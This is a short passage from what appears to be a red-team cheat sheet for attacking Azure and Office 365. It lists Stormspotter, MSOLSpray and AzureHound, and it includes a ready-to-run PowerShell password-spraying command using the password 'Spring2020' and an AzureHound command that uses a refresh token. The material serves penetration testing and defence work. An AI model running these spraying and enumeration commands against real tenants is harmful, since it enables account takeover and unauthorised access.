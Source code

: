 Red team tool for graphing Azure and Azure AD objects

https://github.com/Azure/Stormspotter

#### MSOLSpray

Tool to password spray Azure/O365

https://github.com/dafthack

```powershell
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020
```
#### AzureHound

Tool to identify attack paths in Azure AD and AzureRM

https://github.com/BloodHoundAD/AzureHound

Run AzureHound with a refresh token:
```bash
./azurehound -r "0.ARwA6Wg..." list --tenant "tenant ID" -v 2 -o output.json
```
